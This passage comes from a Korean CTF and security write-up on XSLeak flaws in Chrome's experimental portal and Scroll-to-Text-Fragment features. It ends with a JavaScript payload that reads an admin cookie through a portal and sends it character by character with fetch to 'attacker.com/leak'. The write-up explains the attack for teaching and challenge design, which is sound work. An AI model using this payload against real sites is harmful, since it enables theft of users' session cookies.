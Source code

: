 ```jsx
  window.open(
    `${targetUrl}#:~:text=${encodeURIComponent(searchTerm)}`,
    "_blank"
  );
  requestAnimationFrame(measureFrame);
}
```

위 예시는 1초 동안 `performance` API를 이용하여 시간 측정을 진행한 후 처리 시간이 임계값 이상인지를 기반으로 텍스트 존재 유무를 판단한다. 이처럼 STTF 기능과 다양한 API를 이용하여 여러 방식으로 XSLeak 취약점을 발현시킬 수 있고 공격자는 자신에 상황에 맞는 적합한 방식을 이용하여 타겟 사이트에 대한 정보를 유출한다.

### How does the XSLeak experimental feature apply to CTF?

Chrome의 실험적 기능은 다른 일반적인 기능에 비하여 보안 관련 처리가 많이 되어있지 않은 경우가 많다. 대부분의 기능들은 많은 보안 처리와 안정화 작업을 수없이 많은 시간에 거쳐 진행해 왔지만 실험적 기능의 경우 이와 같은 처리가 이루어진 비중이 상대적으로 적기 때문이다. 따라서 실험적 기능의 경우 Chrome 브라우저의 별도의 설정에서 따로 허용을 진행해야만 사용할 수 있도록 되어있다.

이와 같은 이유로 실험적 기능이 CTF 또는 Wargame에서 챌린지로 출제되는 경우가 종종 존재한다.

일반적으로 실험적 기능의 경우 해당 기능이 확실히 브라우저에 정식 기능으로 적용될지 유무가 확실하지 않고 지속적인 업데이트가 이루어지는 기능이기 때문에 Wargame에서 챌린지로 출제되는 일은 거의 없다.

하지만 명확한 진행 시간이 있는 CTF의 경우 빈번하지는 않지만 실험적 기능을 이용해서 챌린지를 구성하는 경우가 존재한다. 이번 섹션에서는 Chrome의 실험적 기능 중에서도 portal과 STTF에서 발생하는 XSLeak 취약점이 실제 CTF 챌린지 출제에 어떤식으로 응용될 수 있는지에 대하여 기술한다.

**portal을 활용한 제한 우회와 XSLeak**

portal은 iframe과 비슷한 역할을 수행하는 기능이지만 iframe 기능보다 훨씬 보안 관련 처리가 미숙한 기능이다. 출제자는 이 특성을 이용하여 챌린지를 구현할 수 있다.

실험적 기능을 활성화하기 위해서는 별도의 설정으로 실험적 기능을 허용해야한다. 챌린지 환경이 풀이자가 특정 URL을 신고할 경우 자동화 봇이 해당 URL을 관리자 계정으로 방문하는 상황이라 가정하자. (관리자 봇은 `puppeteer v5` 로 구현하였으며 실험적 기능을 허용하고 있는 상황이다.)

또한 챌린지 환경에서는 풀이자가 HTML Injection을 진행할 수 있는 상황이라 추가로 가정하고 챌린지의 핵심 목표가 관리자 쿠키를 탈취하는 것이라 가정하자.

출제자는 쿠키를 탈취하는 상황을 막기 위해 외부 `webhook` 과 같은 URL로 직접적으로 쿠키 탈취 요청이 전송되는 것을 `CSP` 정책 설정과 `Same-Site` 설정을 통해 금지하였고 Frame Counting을 통한 XSLeak을 방지하기 위하여 `X-Frame-Options` 헤더를 설정하였다. 이로 인해 풀이자는 관리자의 쿠키를 유출할 수 있는 방법이 막혔을 것이라 생각할 수 있다.

하지만 portal 기능을 사용할 수 있다는 것을 아는 풀이자의 경우 상대적으로 쉽게 Frame Counting XSLeak을 이용하여 관리자의 쿠키를 유출할 수 있다.

```jsx
const portal = document.createElement("portal");
portal.src = "/admin-page";

portal.addEventListener("load", () => {
  setTimeout(() => {
    const adminCookie = portal.contentDocument.cookie;

    for (let i = 0; i < adminCookie.length; i++) {
      const charCode = adminCookie.charCodeAt(i);

      for (let j = 0; j < charCode; j++) {
        const dummyPortal = document.createElement("portal");
        dummyPortal.src = "about:blank";
        document.body.appendChild(dummyPortal);
      }

      const portalCount = document.querySelectorAll("portal").length;
      fetch(`https://attacker.com/leak?pos=${i}&ascii=${portalCount}`);

      document
        .querySelectorAll('portal[src="about:blank"]')
        .forEach((p) => p.remove());
    }
  }, 500);
});

```